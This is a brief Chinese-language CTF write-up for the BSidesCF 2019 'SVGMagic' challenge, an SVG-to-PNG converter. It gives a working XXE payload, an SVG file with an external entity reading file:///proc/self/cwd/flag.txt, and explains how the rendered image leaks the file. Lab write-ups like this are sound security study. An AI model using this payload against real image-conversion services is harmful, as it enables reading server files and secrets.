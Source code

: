 # [BSidesCF 2019]SVGMagic

## 知识点

`svg渲染xxe`

## 解题

![](./img/[BSidesCF 2019]SVGMagic-1.png)

说是`svg`转为`png`，`svg`的格式是`xml`，那么我们尝试`xxe`将最终的结果以`png`的形式输出即可

长度或者宽度不够可能导致`flag`,动态调整即可，上传`1.xml`内容为

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
          <text x="10" y="100">&xxe;</text>
</svg>
```

因为`/flag`没找到`flag`，看别人`wp`发现实在当前目录，`/proc/self/cwd/`访问的是当前目录,上传后即可获取`flag`

![](./img/[BSidesCF 2019]SVGMagic-2.png)


